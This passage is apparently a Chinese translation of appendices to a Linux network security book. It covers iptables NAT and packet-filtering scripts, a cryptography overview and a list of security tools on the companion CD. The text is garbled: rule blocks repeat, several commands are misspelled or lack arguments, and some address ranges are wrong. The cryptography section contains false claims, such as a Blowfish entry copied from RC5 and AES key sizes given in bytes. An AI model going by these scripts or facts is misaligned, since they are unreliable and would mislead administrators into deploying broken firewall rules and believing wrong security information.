$IPT -A FORWARD -p udp -i $IF_EXT -o $IF_DMZ -d $DMZ_DNS \
  --dport 53 -m state --state NEW,ESTABLISHED,RELATED -j ACCEPT

$IPT -A FORWARD -p tcp -i $IF_EXT -o $IF_DMZ -d $DMZ_MAIL \
  --dport 25 -m state --state NEW,ESTABLISHED,RELATED -j ACCEPT
```

```
$IPT -A FORWARD -i $IF_DMZ -o $IF_LAN -m state \
  ESTABLISHED,RELATED -j ACCEPT

$IPT -A FORWARD -p tcp -i $IF_LAN -o $IF_DMZ \
  -m state --state ESTABLISHED,RELATED -j ACCEPT
```


```bash
$IPT -A FORWARD -p tcp -i $IF_LAN -o $IF_DMZ -d $DMZ_HTTP \
  --dport 80 -m state --state NEW,ESTABLISHED,RELATED -j ACCEPT

$IPT -A FORWARD -p tcp -i $IF_LAN -o $IF_DMZ -d $DMZ_HTTP \
  --dport 443 -m state --state NEW,ESTABLISHED,RELATED -j ACCEPT

$IPT -A FORWARD -p tcp -i $IF_LAN -o $IF_DMZ -d $DMZ_DNS \
  --dport 53 -m state --state NEW,ESTABLISHED,RELATED -j ACCEPT

$IPT -A FORWARD -p udp -i $IF_EXT -o $IF_DMZ -d $DMZ_DNS \
  --dport 53 -m state --state NEW,ESTABLISHED,RELATED -j ACCEPT

$IPT -A FORWARD -p tcp -i $IF_LAN -o $IF_DMZ -d $DMZ_MAIL \
  --dport 25

echo "NAT firewall started"
```

## 附录 D：完整防火墙脚本

在第3章“安全拓扑”中，我们开发了一套通过 `LAN` 路由并执行网络地址转换（`NAT`）的 `iptables` 规则。此脚本通过提供第6章“系统安全措施”中详细的包过滤来增强此功能。

```bash
#!/bin/sh
IF_LAN="eth1"
IF_DMZ="eth2"
IF_EXT="eth0"
IP_LAN="192.168.0.1"
IP_DMZ="192.168.0.1"
DMZ_HTTP="192.168.0.3"
DMZ_DNS="192.168.0.2"
DMZ_MAIL="192.168.0.4"
# iptables 二进制文件的路径在不同的 Linux 发行版之间有所不同
IPT="/usr/local/sbin/iptables"

## 启用 IP 转发
echo "1" > /proc/sys/net/ipv4/ip_forward

## 启用动态地址
echo "1" > /proc/sys/net/ipv4/dynaddr

## Helper模块
/sbin/modprobe conntrack_ftp
/sbin/modprobe nat_ftp
```


```bash
for f in /proc/sys/net/ipv4/conf/*/accept_source_route; do
echo 0 > $f
done
for f in /proc/sys/net/ipv4/conf*/rp_filter; do
echo 1 > $f
done
for f in /proc/sys/net/ipv4/conf*/accept_redirects; do
echo 0 > $f
done
for f in /proc/sys/net/ipv4/conf*/secure_redirects; do
echo 1 > $f
done
for f in /proc/sys/net/ipv4/conf*/send_redirects; do
echo 0 > $f
done
echo 1 > /proc/sys/net/ipv4/icmp_echo_broadcasts
echo 1 > /proc/sys/net/ipv4/icmp_bogus_responses
for f in /proc/sys/net/ipv4/conf*/log_martians; do
echo 1 > $f
done
echo 200 > /proc/sys/net/ipv4/icmp_ratimit
echo 1 > /proc/sys/net/ipv4/tcp_synclog
echo 256 > /proc/sys/net/ipv4/tcp_max_backlog
```

## 允许回环

```bash
$IPT -A INPUT -i lo -j ACCEPT
$IPT -A OUTPUT -o lo -j ACCEPT
```

## 默认策略

```bash
$IPT -P INPUT DROP
$IPT -P OUTPUT DROP
$IPT -P FORWARD DROP
```

## LAN 与 EXT 之间

```bash
$IPT -t nat -A POSTROUTING -o $IF_EXT -j MASQUADE
$IPT -A FORWARD -i $IF_LAN -o $IF_EXT -m state \
  --state ESTABLISHED,RELATED -j ACCEPT
$IPT -A FORWARD -i $IF_EXT -o $IF_LAN -m state \
  --state ESTABLISHED,RELATED -j ACCEPT
```

## 防火墙默认不允许 NEW 连接

```bash
$IPT -A INPUT -m state \
  --state ESTABLISHED,RELATED -j ACCEPT
$IPT -A OUTPUT -m state \
  --state ESTABLISHED,RELATED -j ACCEPT
```

## 用于 EXT 到 DMZ 的 DNAT

```bash
$IPT -t nat -A PREROUTING -p tcp -i $IF_EXT --dport 80 \
  -j DNAT --to-destination $DMZ_HTTP
$IPT -t nat -A PREROUTING -p tcp -i $IF_EXT --dport 443 \
  -j DNAT --to-destination $DMZ_HTTP
$IPT -t nat -A PREROUTING -p tcp -i $IF_EXT --dport 53 \
  -j DNAT --to-destination $DMZ_DNS
$IPT -t nat -A PREROUTING -p udp -i $IF_EXT --dport 53 \
  -j DNAT --to-destination $DMZ_DNS
$IPT -t nat -A PREROUTING -p tcp -i $IF_EXT --dport 25 \
  -j DNAT --to-destination $DMZ_MAIL
```

## 仅允许 EXT 到 DMZ 的 ESTABLISHED 转发

```bash
$IPT -A FORWARD -i $IF_DMZ -o $IF_EXT -m state \
  --state ESTABLISHED,RELATED -j ACCEPT
$IPT -A FORWARD -i $IF_EXT -o $IF_DMZ -m state \
  --state ESTABLISHED,RELATED -j ACCEPT
```

## 为以下服务创建异常并允许 NEW 连接

```bash
$IPT -A FORWARD -p tcp -i $IF_EXT -o $IF_DMZ -d $DMZ_HTTP \
  --dport 80 -m state --state NEW,ESTABLISHED,RELATED -j ACCEPT
$IPT -A FORWARD -p tcp -i $IF_EXT -o $IF_DMZ -d $DMZ_HTTP \
  --dport 443 -m state --state NEW,ESTABLISHED,RELATED -j ACCEPT
$IPT -A FORWARD -p tcp -i $IF_EXT -o $IF_DMZ -d $DMZ_DNS \
  --dport 53 -m state --state NEW,ESTABLISHED,RELATED -j ACCEPT
$IPT -A FORWARD -p udp -i $IF_EXT -o $IF_DMZ -d $DMZ_DNS \
  --dport 53 -m state --state NEW,ESTABLISHED,RELATED -j ACCEPT
$IPT -A FORWARD -p tcp -i $IF_LAN -o $IF_DMZ -d $DMZ_MAIL \
  --dport 25 -m state --state NEW,ESTABLISHED,RELATED -j ACCEPT
```

## DMZ 与 LAN 之间

```bash
$IPT -A FORWARD -i $IF_DMZ -o $IF_LAN -m state \
  ESTABLISHED,RELATED -j ACCEPT
```

# Linux 网络安全

```bash
$IPT -A FORWARD -p tcp -i $IF_LAN -o $IF_DMZ \
  -m state --state ESTABLISHED,RELATED -j ACCEPT
$IPT -A FORWARD -p tcp -i $IF_LAN -o $IF_DMZ -d $DMZ_HTTP \
  --dport 80 -m state --state NEW,ESTABLISHED,RELATED -j ACCEPT
$IPT -A FORWARD -p tcp -i $IF_LAN -o $IF_DMZ -d $DMZ_HTTP \
  --dport 443 -m state --state NEW,ESTABLISHED,RELATED -j ACCEPT
$IPT -A FORWARD -p tcp -i $IF_LAN -o $IF_DMZ -d $DMZ_DNS \
  --dport 53 -m state --state NEW,ESTABLISHED,RELATED -j ACCEPT
$IPT -A FORWARD -p udp -i $IF_EXT -o $IF_DMZ -d $DMZ_DNS \
  --dport 53 -m state --state NEW,ESTABLISHED,RELATED -j ACCEPT
$IPT -A FORWARD -p tcp -i $IF_LAN -o $IF_DMZ -d $DMZ_MAIL \
  --dport 25 -m state --state NEW,ESTABLISHED,RELATED -j ACCEPT

$IPT -A INPUT -m state \
  ESTABLISHED,RELATED -j ACCEPT
$IPT -A OUTPUT -m state \
  ESTABLISHED,RELATED -j ACCEPT
```

## 允许防火墙访问 DMZ 内部的名称服务器

```bash
$IPT -A OUTPUT -o $IF_DMZ -p udp -d $DMZ_DNS --dport 53 \
  --sport 1024:65535 -j ACCEPT
$IPT -A OUTPUT -o $IF_DMZ -p tcp -d $DMZ_DNS --dport 53 \
  --sport 1024:65535 -j ACCEPT
```

## 限制对 LAN 内部机器的 SSH 访问

```bash
$IPT -A INPUT -i $IF_LAN -p tcp --dport 22 \
  -s 192.168.1.37 -j ACCEPT
```

## 以下规则允许 DHCP 流量

```bash
$IPT -A OUTPUT -o $IF_EXT -p udp --sport 68 --dport 67 \
  -s 255.255.255.255 -j ACCEPT
$IPT -A INPUT -i $IF_EXT -p udp --dport 67 \
  -s 255.255.255.255 -j ACCEPT
```


# 514 Linux 网络安全

```bash
for host in `cat /usr/local/etc/hosts.deny`; do
  ipt -I INPUT -s $host -j DROP
  ipt -I FORWARD -s $host -j DROP
  ipt -I OUTPUT -d $host -j DROP
  ipt -I FORWARD -d $host -j DROP
done
```

## 用于拦截“坏”数据包的自定义链——那些具有非法 IP 地址的数据包。记录此类数据包对于排查配置不错误的应用程序很有用，但它们可能会导致巨大的日志文件。

```bash
ipt -N bad_packets
ipt -P bad_packets ACCEPT
```

```bash
ipt -A bad_packets -s 10.0.0.0/8 -j LOG \
  --log-prefix "illegal_source_address"
ipt -A bad_packets -s 10.0.0.0/12 -j DROP
```

```bash
ipt -A bad_packets -s 172.168.0.0/12 -j LOG \
  --log-prefix "illegal_source_address"
ipt -A bad_packets -s 172.168.0.0/12 -j DROP
```

## 192.168.0 - 192.168.0.255 范围内的地址仅在源自 DMZ 时有效

```bash
ipt -A bad_packets -i $IF_EXT -s 192.168.0.0/24 -j LOG \
  --log-prefix "illegal_source_address"
ipt -A bad_packets -i $IF_EXT -s 192.168.0.0/24 -j DROP
```

```bash
ipt -A bad_packets -i $IF_LAN -s 192.168.0.0/24 -j LOG \
  --log-prefix "illegal_source_address"
ipt -A bad_packets -i $IF_LAN -s 192.168.0.0/24 -j DROP
```

## 192.168.1.0 - 192.168.1.255 范围内的地址仅在源自 LAN 时有效

```bash
ipt -A bad_packets -i $IF_EXT -s 192.168.1.0/24 -j LOG \
  --log-prefix "illegal_source_address"
ipt -A bad_packets -i $IF_EXT -s 192.168.1.0/24 -j DROP
```

```bash
ipt -A bad_packets -i $IF_DMZ -s 192.168.1.0/24 -j LOG \
  --log-prefix "illegal_source_address"
ipt -A bad_packets -i $IF_DMZ -s 192.168.1.0/24 -j DROP
```

# 完整防火墙脚本 515

```bash
## 预留、多播、广播和环回地址
ipt -A bad_packets -s 169.254.0/16 -j LOG \
  --log-prefix "illegal_source_address"
ipt -A bad_packets -s 169.254.0/16 -j DROP
```

```bash
ipt -A bad_packets -s 192.0.2.0/16 -j LOG \
  --log-prefix "illegal_source_address"
ipt -A bad_packets -s 192.0.2.0/16 -j DROP
```

```bash
ipt -A bad_packets -s 0.0.0.0/8 -j LOG \
  --log-prefix "illegal_source_address"
ipt -A bad_packets -s 0.0.0.0/8 -j DROP
```

```bash
ipt -A bad_packets -s 224.0.0.0/4 -j LOG \
  --log-prefix "illegal_source_address"
ipt -A bad_packets -s 224.0.0.0/4 -j DROP
```

```bash
ipt -A bad_packets -s 240.0.0.0/5 -j LOG \
  --log-prefix "illegal_source_address"
ipt -A bad_packets -s 240.0.0.0/5 -j DROP
```

```bash
## 通常情况下，指向广播地址 255.255.255.255 的数据包应该被丢弃
ipt -A bad_packets -d 255.255.255.255 -j LOG \
  --log-prefix "illegal_dest_address"
ipt -A bad_packets -d 255.255.255.255 -j DROP
```

```bash
## 如果你有静态 IP 地址，以下规则将记录并丢弃广播包。目标 IP 地址应该更改以反映你的 IP。
ipt -A bad_packets -d 1.2.3.0 -j LOG --log-prefix "broadcast"
ipt -A bad_packets -d 1.2.3.0 -j DROP
ipt -A bad_packets -d 255.255.255.255 -j LOG --log-prefix "broadcast"
ipt -A bad_packets -d 255.255.255.255 -j DROP
```

```bash
ipt -I INPUT -j bad_packets
ipt -I OUTPUT -j bad_packets
ipt -I FORWARD -j bad_packets
echo "Firewall started"
```

# 附录：密码学

我们将对密码学的讨论留到了这个附录，部分是因为它具有理论性，另一部分是因为这里包含的信息适用于许多安全领域，并且在书中被多次引用。

## 密码学基础

对于任何对安全感兴趣的人来说，了解密码学都是关重要的；遗憾的是，它会很快变得非常复杂。本附录并没有尝试描述密码学背后复杂的数学，而是关注实用的因素，例如方法的安全性、其相对速度、常见用途以及许可状态。公钥加密（PKC）已在第 7 章“桌面”和第 10 章“安全服务”中介绍；这里我们专注于加密和哈希的基础知识，从澄清每个术语开始。

## 加密算法定义

加密学知识对于任何对安全感兴趣的人来说都是必不可少的；遗憾的是，它会很快变得非常复杂。本附录并没有尝试描述密码学背后复杂的数学，而是关注实用的因素，例如方法的安全性、其相对速度、常见用途以及许可状态。公钥加密（PKC）已在第 7 章“桌面”和第 10 章“安全服务”中介绍；这里我们专注于加密和哈希的基础知识，从澄清每个术语开始。

## 加密算法的定义

加密是使信息变得不可读的过程，这种方法通过算法来混淆数据。在对称加密中，发送者和接收者必须拥有相同的密钥。在非对称加密中，使用了不同的密钥：公钥和私钥。在对称加密中，发送者使用密钥加密数据。在对称加密中，接收者使用相同的密钥来解密。在非对称加密中，发送者使用接收者的公钥来加密数据。在非对称加密中，接收者使用其自己的私钥来解密。

## 哈希（摘要）算法定义

哈希算法接收任意长度的数据并创建一个固定长度的字符串，被称为哈希、数字指纹或摘要。这种哈希是单向的，无法通过哈希获取原始数据，但两个不同数据产生相同哈希的概率极低。

## 针对密码学的攻击

针对密码学的攻击主要有两种形式：要么是数学分析，要么是暴力破解。在后者中，攻击者只需尝试所有可能的字符直到匹配为止。另一种攻击形式是密码分析，涉及到对算法的审查，这种方法在拥有高级数学知识的情况下是可能的。

## 法律问题

这带我们进入另一个重要领域：闭源与开源的长期争论。闭源加密的支持者认为将加密算法公开会削弱它，允许恶意用户对其分析。开源加密的支持者认为这种审查对于建立算法安全性至关重要。作为 Linux 用户，你可能和我们一样倾向于开源观点；在闭源加密中，无法保证创建者没有后门或无意中遗留可能被攻击者发现的漏洞。关于专利算法，存在使用问题。某些算法对于私人使用是免费的，但商业用途则并非如此。想象你在整个网络中集成了加密方案，结果限制发生了变化，需要支付巨额的版费。

### 流行的加密算法

大量的加密和摘要算法可用。有些是开源的，有些是闭源的；有些经受住了时间的考验，有些已被证明是有缺陷的。在本节中，我们将介绍一些流行的算法，并说明它们的特殊注意事项。

### DES


`DES` 最初在 20 世纪 70 年代由 `IBM` 开发（数据加密标准），目前是最广泛使用的加密方法之一，并且地经受了时间的考验。`IBM` 的工作受到了 `NSA` 的密切监督；许多人怀疑 `NSA` 故意在算法中加入了后门，以便在需要时破解。然而，在经历了 30 多年的公开审查后，尚未发现此类后门，这些传言通常被认为是没有根据的。我们已知，`NSA` 促使 `IBM` 将密钥长度从 128 位缩减到 64 位，然后降到 56 位。这强有力地表明，即使在 70 年代，`NSA` 已经拥有了对整个密钥空间进行暴力破解所需的计算能力。考虑到从那以后处理器的巨大进步，一个资金有限的组织可能很轻易地破解 `DES` 加密的数据。

# 520

# Linux 网络安全

56 位 `DES` 的密钥空间为 `2^56` (72,000,000,000,000)。这看起来可能很大，但——正如前面提到的——美国国家安全局（`NSA`）可能早在 20 世纪 70 年代就拥有了进行全密钥搜索的实力。鉴于过去 30 年计算能力的巨大进步，破解者只需利用手头几台性能中庸的家用电脑 `PC` 就能在几个月内完成此类搜索，因此 56 位 `DES` 不再被视为一种安全的长期加密方法。

### 双重 DES 和 3DES

双重 `DES` (`Double DES`) 和三重 `DES` (`3DES`) 是两种算法，它们分别通过执行两次或三次加密来改进上述算法。双重 `DES` 已证明存在缺陷，提供的额外强度微乎其微；但 `3DES` 已在原 `DES` 用户中被广泛使用。`3DES` 的密钥长度为 168 位 (`3 * 56`)，其中有效密钥大小为 112 位。为了让你了解 56 位密钥和 112 位密钥之间的安全增幅有多大，请考虑这一点：如果世界上每台电脑都合力对密钥空间进行协调搜索，仍需要几十百亿亿年才能完成。尽管如此，`3DES` 通常被认为在短期内是安全的，并且已经被其他加密方法所取代。

### AES

高级加密标准 (`AES`) 基于块密码，由比利时密码学家约恩·达马门（`Joan Daemen`）和文森特·里曼（`Vincent Rijmen`）开发。尽管相对较新，`AES` 已被美国政府采纳以取代过时的 `DES`。`Rijndael`（即 `AES` 算法）使用 128 位的固定块大小，密钥大小为 128、192 或 256 字节，后两种已获得 `NSA` 批准，适用于加密包括“最高机密”在内的数据。这是公众首次可以使用被认为如此强大的加密方法。

`AES` 仍处于早期阶段，但截至本文撰写时，尚未发现任何已知的安全漏洞。与 `3DES` 相比，`AES` 的主要优势之一是其速度要快得多。

### RC2™

`RC2` 是 `RC4` 的前身，开发于 20 世纪 80 年代后期，作为 `DES` 的直接替代品。正如两年前 `RC4` 发生的情况一样，`RC2` 算法的细节在 1996 年泄露到互联网，发现 `RC2` 容易受到相关密钥攻击。它现在已被废弃。

### RC4™

`RC4` 由 `RSA Security` 于 1987 年开发，是一种对称密钥流密码，密钥长度可达 256 位。该算法最初是闭源的但在 1994 年泄露到互联网后，其法律地位变得不确定。许多非官方的 `RC4` 实现应运而出，尽管它们必须使用不同的名称（因为 `RC4` 是商标），但它们似乎是合法的。为了避免潜在的商标限制，`RC4` 及其非官方实现通常被统称为 `ARCFOUR`。

`RC4` 被广泛使用的部分原因在于它是可用最快的算法之一。它形成了 `WEP` 和 `SSL` 等标准的基础。

2001 年，人们发现 `RC4` 流输出的前几个字节具有强烈的非随机性，在加密数据量足够大的情况下，就可以发现原始密钥（这是第 7 章所解释的许多 `WEP` 攻击的基础）；因此，较新的 `RC4` 实现通常会丢弃前 256 字节的输出。

### RC5™

`RC5` 是一种密钥大小可达 2040 位的块密码，由于其使用的算法简单，引起了密码分析学者的特别关注。尽管简单，破解 `RC5` 并非易事：`RSA` 安全公司经常为任何能破解 `RC5` 加密消息的人提供奖励，到目前为止唯一成功的候选者是 `Distributed.net` 组，他们以类似于 `SETI` 项目的方式利用成千上万家用电脑的分布式力量。该算法已获得专利。

### RC6™

块密码——这次基于 `RC5`——`RC6` 的创建目的是满足 `AES` 所需的标准。尽管它没有成为 `AES` 标准（该标准留给了 `Rijndael` 算法，现在通称为 `AES`），但它确实提供了强大的加密，目前尚无已知漏洞。与 `RC5` 一样，`RC6` 专利，但 `RSA` 表示它将保持免费使用。

### RSA™

`RSA`（以其发明者隆·里维斯特 `Ron Rivest`、阿迪·沙米尔 `Adi Shamir` 和伦·阿德尔曼 `Len Adleman` 的首字母命名）是 1977 年开发的一种非对称算法，并作为公钥基础设施 (`PKC`) 的基础广泛使用。直到 2000 年其专利到期为止，`RSA` 可以在美国以外的任何地方使用。因如此，`RSA` 在历史上在欧洲和日本比在美国更受欢迎。

`RSA` 的强度取决于分解非常大的数字（密钥）的困难性：将两个质数相乘以形成一个大数很容易的；但给定这个密钥，没有简单的方法可以确定用于创建它的质数。唯一已知的方法是暴力破解计算，这是一个非常漫长的过程。256 位密钥可以在家用 `PC` 上在几小时内被破解，而 512 位密钥对于那些拥有更多处理能力的人来说不会构成严重问题；因此，目前推荐的最小长度是 1,024 位。

### Blowfish

`Blowfish` 是一种密钥大小可变最高 2048 位的块密码，由于其算法简单，密码分析学家对其特别感兴趣。尽管简单，但破解 `Blowfish` 并非易事：`RSA` 安全公司经常为任何能破解 `Blowfish` 加密消息的人提供奖励，到目前为止唯一成功的候选者是 `Distributed.net` 组，他们以类似于 `SETI` 项目的方式利用成千上万家用电脑的分布式力量。该算法已获得专利。

### IDEA™

国际数据算法 (`IDEA`) 是一种使用 128 位密钥的专利块密码。它在 20 世纪 90 年代早期开发，是建议加密标准 (`PES`) 的修订，并曾一度流行。尽管存在某些缺陷，它仍被认为是安全的。

### 哈希算法

在加密算法中，哈希算法的选择受到许可、速度和密钥大小的影响。让我们看看一些最流行的哈希算法，包括著名的 `MD5`，它并不像想象中那样强大。

# 密码学 523

# MD2

`MD2` 由隆·里维斯特于 1989 年开发（消息摘要 2），生成 128 位数字。它在 8 位系统上运行，因此在现代计算中几乎不再使用。

# MD4

`MD2` 的继者 `MD4` 开发于 1990 年。`MD4` 使用 128 位的摘要长度，是 `MD5` 和 `SHA` 算法的基础。1991 年，发现了 `MD4` 的一个漏洞（尽管这并没有影响基于它的算法），导致其使用寿命短暂。

# MD5

`MD5`（及其前身 `MD4`）使用消息摘要算法创建 128 位的数字指纹，用于消息中包含的信息。无论消息长度如何，`MD5` 摘要（通常表示为 32 位十六进制数）保持固定大小，且原始消息的细微修改都会导致完全不同的摘要。由于这种通过较小摘要对大量数据进行指纹识别的能力，`MD5` 在 `Linux` 世界中常用于验证下载软件的完整性。

1994 年，有人证明 `MD5` 容易受到碰撞攻击，即两个不同的消息产生相同的摘要。这对于在线购物和银行具有严重影响，因为这些领域通常使用 `MD5` 签名数字证书，攻击者完全可能创建一个与目标网站证书具有相同摘要的自定义数字证书。

尽管这些发现是十年前提出的，但 `IT` 社区尚未充分意识到其影响，`MD5` 仍被认为是安全的。这可能是因为人们认为数学证明并不代表现实世界中的实际威胁（只有当电子前沿基金 [EFF](https://eff.org) 执行了一次广为人知的真实的 56 位 `DES` 全密钥空间搜索时，公众才注意到了；尽管数学家多年前就证明了在现代计算能力下这种攻击是可能的）。2004 年，启动了这样一个此类项目。命名为 `MD5CR`(http://www.md5cr.com)，它利用自愿运行软件的家用 `PC` 的分布式计算能力来证明碰撞会发生。

# 524 Linux 网络安全

预计将在 2006 年之前发现首次碰撞，并在不久后将发现更多碰撞。

底线是，`MD5` 不再被认为能够抵御针对性攻击是安全的——尽管 `IT` 世界需要很多时间才能放弃 `MD5`——但需要一个替代方案。

# SHA

`SHA`（安全哈希算法）是由美国国家安全局（`NSA`）设计的消息摘要算法，其原理与 `MD5` 类似。它能从长达 256 位的消息中创建一个 160 位的摘要。它的第一个版本 `SHA-0` 发布于 1993 年，但由于不久后因一个缺陷被撤回，该缺陷的具体性质尚未公开。五年后，`Chabaud` 和 `J` 发表了针对 `SHA-0` 攻击的细节，这可能也可能就是 `NSA` 保留的那个缺陷。

`SHA-0` 的继任者是 `SHA-1`，它是原始版本在 1995 年发布的修订版。尽管它相对较新，但它受到了来自第三方密码学专家的严格审查，到为止尚未发现任何漏洞。除了 `SHA-1` 之外，美国国家标准与技术研究院（`NIST`）还发布了其他三个变体，根据它们生成的摘要长度命名：`SHA-256`、`SHA-384` 和 `SHA-512`。

# 公钥加密 (PKC)


正如我们之前看到的，加密算法可以分为两类：对称和非对称，对称算法依赖于发送方和接收方事先共享的密钥。密钥的安全分发问题通过 `PKC` 解决，这是由 Whitfield Diffie 和 Martin Hellman 在 1975 年开发的系统。`PKC` 使用一对密钥：一个用于加密消息的公钥和一个用于解密消息的私钥。正如其名称所示，公钥是所有人可见的——许多人选择将其附加到电子邮件和 `Usenet` 帖的签名中，或将其显示在自己的网站上。私钥则被视为严格保守的秘密，因为它是解密用公钥编码消息的唯一可行方法。这几乎减少了每方预先通过其他安全措施进行密钥交换的需求。

考虑以下示例：Andrew 想要向 Natalie 发送一个加密方法。在步骤 1 中，他从 Natalie 的网站、电子邮件或她在签名中包含的 `Usenet` 帖获取了 Natalie 的公钥（或者他也可以发邮件向她索要）。Andrew 现在使用 Natalie 的公钥加密他给 Natalie 的邮件，并且为了方便她回复，包含了他自己公钥的副本（步骤 2）。Natalie 随后使用她的私钥解密这条消息，并使用 Andrew 的公钥加密她的回复。

``

如果其中任何封邮件落入恶意第三方的手中，在没有解密私钥的情况下，它们是无法读取的。

# 数字签名

除了向窥视者隐藏消息内容外，`PKC` 还具有支持数字签名的主要优势。通过数字签名，接收者可以确保发送者确实是其声称的身份，并且消息内容没有以任何方式被更改。因此，数字签名提供了不可否认性，即发送者不能声称他没有发送。在许多情况下，数字签名比消息加密本身更重要。

这一次，发送者使用其私钥加密信息。如果这些信息随后可以使用发送者的公钥解密，那么发送者最初一定创建了它。

# `PGP`, `PGPI`, `OPENPGP`, 和 `GNUPGP`

你对 `PGP` 并不陌生，只要在其他人的电子邮件和 `Usenet` 签名中看到它。`PGP` 是 `PKC` 的原始实现之一，自从 Phil Zimmermann 在 1991 年创建它以来，它获得了广泛普及。

`PGP` 创建于美国，但随着其在全球范围内兴起，法律问题也随之产生。直到 1999 年，美国法规一直限制了强加密技术的出口，因此创建了国际版本的 `PGP`——`PGPI`。与流行的传闻相反，这并不是原始 `PGP` 的削弱版本；相反，`PGP` 作者将源代码以印刷书籍的形式导出，然后对其进行扫描以以电子形式重新创建。这不仅暴露了出口条例中的漏洞，还允许他人检查其是否存在错误或后门。随着出口限制的放宽，对 `PGP` 国际版本的最初需求已经消失；然而，该项目仍在继续，而是关注外语言翻译等其他国际问题。

重要的是记住，`PKC` 仅仅是一个概念，有几种算法实现了它，例如 `Diffie-Hellman` (`DH`)、`ElGamal`、`DSA` 和 `RSA`。早期的 `PGP` 使用 `RSA` 和 `IDEA` 算法，这两者都拥有专利（`RSA` 专利自此以后已过期），且非商业用途免费。由于这些限制，`GNU` 组创建了自己的隐私方案，命名为 `GnuPG`（`Gnu` `Privacy` `Guard`，简称 `GPG`）。`GnuPG` 完全开源的，并与默认不使用 `IDEA` 的后期 `PGP` 版本兼容（通过使用 `IDEA` 插件也可以与早期的 `PGP` 版本兼容）。正如你所预期的，`GnuPG` 在 `GPL` 下发布，对于 `Linux` 用户来说，它是受欢迎的。选择权在于你，`GnuPG` 和 `PGP` 在 `Linux` 下都得到了很好的支持。

拼图的最后一块是 `OpenPGP`。`OpenPGP` 是由 `IETF`（互联网工程任务组）协调的非专利协议，它定义了消息加密、数字签名和证书的标准。事实上，许多 `OpenPGP` 基于 Zimmermann 的原始 `PGP`，并且不同的 `PKC` 方案并存。

# 安全

`PGP` 的巨大缺陷并不是暴力破解攻击（这在当今计算机上是不可能的），而是人类的缺点。如果使用不当，它会产生错误的安全感。除了密钥，每个用户还有一个密码。

# 参考

- `[Crypto` `FAQ]` `RSA` 安全 `FAQ`。在线访问：`http://www.rsase.com/node.asp?id=2152`。

- `[Koops04]` Koops, Bert Jaap，“加密法”。在线访问：`http://rechten.uvt.nl/koops/crypt/index.htm`，2004。

- `[Levy2000]` Levy, Steven，《加密》。Penguin，2000。

- `[PGP` `Attack` `FAQ]` “`PGP` 攻击 `FAQ`”。在线访问：`http://axion.physics.ubc.ca/pgp-attack.html`。

- `[RFC2440]` “`RFC` `2440` `OpenPGP` 格式”。在线访问：`http://www.ietf.org/rfc2440.txt,1998`。

# `F` 关于光盘

在本附录中，随附光盘包含的软件将按照其首次出现的章节组织。大部分软件适用于 `Linux`，但你会发现 `Nmap` 等流行工具的 `Windows` 版本。

## 系统要求

描述为运行在 `Win32` 的软件是基于 `GUI`，适用于任何 32 位 `Windows` 平台。标记为 `DOS` 的软件是基于控制台的，运行在 `DOS` 中（因此也可以在 `Windows` 中）。`Unix` 用于描述运行在 `Unix` 或类 `Unix` 操作系统（如 `Linux`）上的软件。`Linux` 用于描述运行在 `Linux` 上而非通用 `Unix` 的软件。

对于 `Unix`/`Linux` 软件，最低系统要求为

- 带有 2.4 或 2.6（推荐）内核的 `Linux` 操作系统

- `Pentium` `I` 处理器或同等

- 64 `MB` `RAM`（建议 128 `MB` 或更多）

- 光驱

- `X` `Windows`，可选

- 80 `MB` 空硬盘

- `Perl` 解释器

- `GCC` 2.96 或更高

对于 `Windows` 应用，最低要求为

- `Windows` 98、`NT` 或更高版本

- `Pentium` `I` 处理器或同等

- 128 `MB` `RAM`

- `CD-ROM` 驱动器

- 80 `MB` 空闲硬盘空间

- `Perl` 解释器

- `C` 编译器

## `CD-ROM` 文件

`links.html`: 指书中提到的 `URL` 的超链接。

`Images/`: 包含书中使用的图像的目录。

## 第 2 章

`John` `The` `Ripper`

密码破解器，版本 1.6 和 1.6.37。

作者：Solar Designer。

`URL`: `http://www.openwall.com/john/`

- `john-1.6.tar.gz`: `C` 源代码

- `john-1.6.37.tar.bz`: `C` 源代码，最新版本

- `john-1.6w.zip`: `Win32` 二进制文件

- `john-1.6d.zip`: `DOS` 二进制文件

`Ettercap` (`ettercap-NG-0.7.0_pre2.tar.gz`)

作者：Alberto Ornaghi, Marco Valleri

`URL`: `http://ettercap.sourceforge.net`

`GUI` 数据包嗅探器的 `ng-0.7.0-pre2` 版本，用 `C` 语言编写。

需要 `libpcap` 和 `libnet`。

## 第 3 章

## 附录 `C` `NAT` 脚本

`nat.sh`: `iptables` 规则集（shell 脚本），为作为路由器/防火墙的 `Linux` 机器提供 `NAT` 和路由。

## 第 4 章

## `Nmap`

流行的端口扫描。

作者：Fyodor

`URL`: `http://www.nmap.org`

`nmap-3.51-TEST3.tgz`: `Unix` 版本的 `C` 源代码

`nmap-3.50-win32.zip`: `Win32` 二进制文件

## `Nessus`

作者：Renaud Deraison, Michel Arboi, John Lampe。

`URL`: `http://www.nessus.org`

基于 `GUI` 的全面漏洞扫描器 2.0.10 版本。用 `C` 语言编写，并在文件中以源代码形式提供（仅限 `Unix`）：

- `libnasl-2.0.10a.tar.gz`

- `nessus-core-2.0.10a.tar.gz`

- `nessus-libraries-2.0.10a.tar.gz`

- `nessus-plugins-2.0.10a.tar.gz`

`Nessus` 需要 `OpenSSL` 和 `GTK` v1.2 或更高版本。

## `Nikto` (`nikto-current.tar.gz`)

`Nikto` 1.32 版本，网站漏洞扫描器，用 `Perl` 编写。需要 `Perl` 解释器和 `NET::SSLeay` `Perl` 模块。可以在 `Unix` 或 `DOS` 上运行。

## 第 5 章

## `firewall.sh`

`Iptables` 规则集（shell 脚本形式），为路由器/防火墙机器提供数据包过滤。

## `blockip`

用于将主机添加到 `Iptables` 拦截列表的 `Perl` 脚本。

## `unblockip`

`blockip` 的对应程序，从列表中移除主机。

## 第 7 章

`browser_details.html`


使用 JavaScript 读取浏览器和桌面设置的示例。可以在任何支持 JavaScript 的 Web 浏览器中运行。

## 第 8 章

LibSafe(`libsafe-2.0-16.tgz`)

作者：Tim Tsai, Navjot Singh

URL: `http://www.research.availabs.com/project/libsafe/`

Avaya Lab 针对 Linux 的堆栈保护库。

## 第 11 章

Tripwire (`tripwire-2.3.1-2.tar.gz`)

作者：Tripwire, Inc.

URL: `http://www.tripwire.org`

Linux 入侵检测系统 (IDS)，版本 2.3.1-2。用 C 语言编写，仅限 Linux。

Snort (`snort-2.2.0.tar.gz`)

作者：Marty Roesch 等。

URL: `http://www.snort.org`

用于 Unix 的 IDS 和数据包嗅探器。

## 索引

ISP 的可接受使用策略

(AUPs), 134

访问控制

Action 脚本语言, 270

CGI 脚本。

Apache, 391–398

方法比较, 383–384

ActiveX, 267

